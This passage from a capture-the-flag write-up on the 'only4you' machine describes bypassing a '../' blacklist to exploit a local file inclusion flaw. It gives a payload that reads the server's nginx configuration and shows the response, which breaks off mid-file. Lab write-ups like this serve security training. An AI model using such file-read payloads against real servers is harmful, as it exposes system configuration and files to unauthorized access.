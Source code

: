 there is potential **LFI** with blacklisted rules if start with `../` or `..`, it's easy to bypass. fireup burpsuite

![](/assets/img/only4you/3.png)

next im gonna enumerate nginx config file, because wapplyzer detect if target use nginx as webserver.

payload : `/etc/nginx/sites-enabled/default`

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 28 Jun 2023 20:26:54 GMT
Content-Type: application/octet-stream
Content-Length: 460
Connection: close
Content-Disposition: attachment; filename=default
Last-Modified: Sun, 04 Dec 2022 21:54:52 GMT
Cache-Control: no-cache
ETag: "1670190892.3086803-460-3283749922"

server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
```